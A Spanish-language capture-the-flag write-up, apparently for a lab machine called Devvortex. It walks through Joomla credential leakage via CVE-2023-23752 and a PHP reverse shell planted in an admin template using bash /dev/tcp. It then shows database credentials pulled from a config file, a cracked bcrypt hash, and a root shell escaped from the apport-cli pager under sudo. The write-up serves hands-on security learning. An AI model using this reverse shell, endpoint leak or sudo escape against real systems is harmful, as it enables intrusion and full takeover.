

## Enumeración

Empezamos enumerando con nmap versiones y puertos abiertos, también probé con los scripts básicos, pero no me reportaron gran cosa. El nombre del host tendremos que añadirlo en el **_/etc/hosts_** para que la página web funcione.


Como es ritual, seguimos con la enumeración de rutas comunes y subdominios. Haciendo fuzzing a las rutas comunes no se encontró nada, pero en los subdominios hubo un reporte de uno: <u>dev.</u> Está activo, así que lo añadimos al **_/etc/hosts_**.


## Explotando Joomla

Cuando entramos al subdominio nos encontramos con una pantalla de login con un CMS llamado Joomla. No nos indica la versión, pero buscando por internet descubrí un [POC](https://github.com/Acceis/exploit-CVE-2023-23752) que filtra credenciales haciendo uso de la [CVE-2023-23752](# "Esta vulnerabilidad expone endpoints donde se filtran credenciales: /api/index.php/v1/users?public=true y /api/index.php/v1/config/application?public=true"). Accedemos con las credenciales dadas.


## Reverse Shell

Una vez que hemos accedido al panel administrativo, nos reporta que PHP está desactualizado y algunas cosas más. En este caso tendremos que investigar bien la página, ya que en una sección encontraremos **Administrator Templates**.


En esta sección podremos elegir el archivo que queremos editar. Yo decidí editar el index.php, ya que cuando cargue la página principal se ejecutará mi reverse shell.

```php
system("bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'");
```

Con esto ganaremos acceso al sistema como el usuario **www-data**.



#### Accediendo como el usuario Logan

Al ganar acceso al sistema, tenemos que loguearnos como el usuario logan. Como acto rutinario, voy a la ruta **_/var/www/html/dev.devvortex.htb/_** a investigar un poco, ya que en ~/devvortex.htb no había nada. Ahí encontraremos un archivo _configuration.php_ con las credenciales de MySQL. Aunque debí haber probado primero las credenciales de Joomla (ya que las recicla una vez más)... pero bueno, vamos a lo seguro.

```php
<?php
class JConfig {
	public $offline = false;
	public $offline_message = 'This site is down for maintenance.<br>Please check back again soon.';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'lewis';
	public $password = 'P4ntherg0t1n5r3c0n##';
	public $db = 'joomla';
	public $dbprefix = 'sd4fg_';
```

###### Para conectarnos:

```sql
mysql -u lewis -h localhost -p
```
<span style="font-size:12px">"_Ingresas la contraseña cuando te la piden_"</span>

Una vez dentro, vamos a buscar la tabla "_sd4fg_users_" donde encontraremos la información del usuario logan.


##### Rompiendo el hash

Para romper el hash lo guardaremos en un documento _hash.txt_ y con John crackearemos el contenido del archivo:

```
❯ john -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
No password hashes left to crack (see FAQ)

❯ john --show hash.txt
?:tequieromucho
```

Bastante curiosa la contraseña :3. Ya podremos entrar como el usuario logan vía SSH.

## Escalando privilegios

Ya que estamos logueados como logan, empezamos nuestra enumeración básica para escalar privilegios. A la primera vemos que tenemos permiso para ejecutar como todos los usuarios el comando "_/usr/bin/apport-cli_".

- Usando el comando `sudo /usr/bin/apport-cli -f`:


<span style="font-size:12px">"_Entrarás en un modo que se llama "bug filing mode", esto se usa para registrar errores_"</span>

Aquí probé varias cosas, pero lo que me sacó al modo paginator fue la opción **5 dist-upgrade** y luego darle a la tecla **V**, que nos permitirá ver los errores en modo paginator. 


Ya solo sería escribir `!/bin/bash` y obtendremos una shell como root.

## Reflexión

Fue una máquina bastante sencilla en general. La vulnerabilidad en Joomla no fue muy explotada, pero sin embargo fue bastante interesante de trabajar. En mi opinión, se reciclaron demasiadas veces las credenciales, lo cual hace que vayas volando a la hora de resolverla.  
La escalada de privilegios es un poco de prueba y error hasta alcanzar un paginator y poder escapar de él.

# FIN
